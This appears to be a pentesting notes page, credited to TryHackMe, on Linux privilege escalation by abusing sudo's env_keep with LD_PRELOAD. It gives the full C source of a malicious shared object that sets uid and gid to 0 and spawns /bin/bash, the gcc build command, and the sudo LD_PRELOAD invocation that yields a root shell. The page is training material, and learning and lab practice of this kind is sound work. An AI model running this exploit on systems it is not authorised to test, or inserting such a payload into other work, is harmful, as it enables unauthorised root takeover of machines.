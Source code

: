```yaml
---
description: SUDO exploitation by LD_PRELOAD
---
```


# SUDO

View own SUDO permissions

`sudo -l`&#x20;

* LD\_PRELOAD

On some systems, you may see the LD\_PRELOAD environment option.

![https://i.imgur.com/gGstS69.png](https://i.imgur.com/gGstS69.png)

LD\_PRELOAD is a function that allows any program to use shared libraries. If the "env\_keep" option is enabled, we can generate a shared library that will be loaded and executed before running the program. Note that the LD\_PRELOAD option will be ignored if the actual user ID is different from the effective user ID.&#x20;

The steps of this privilege escalation vector can be summarized as follows;&#x20;

1. Check LD\_PRELOAD (with env\_keep option).
2. Write simple C code compiled as a shared object file (.so extension).
3. Run the program with sudo rights and the LD\_PRELOAD option pointing to our '.so' file.

&#x20;The C code will simply spawn a root shell and can be written as follows:

{% code overflow="wrap" %}
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
{% endcode %}

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters:

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

![shell.c and compilation with gcc](https://i.imgur.com/HxbszMW.png)

We can now use this shared object file when starting any program that our user can run with sudo. In our case we can use Apache2, find, or almost any of the programs that we can run with sudo.

We need to run the program specifying the LD\_PRELOAD option, as follows:

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption><p>Screenshot showing changing to SUDO privileges with exploit</p></figcaption></figure>



_-Credits: TryHackMe_
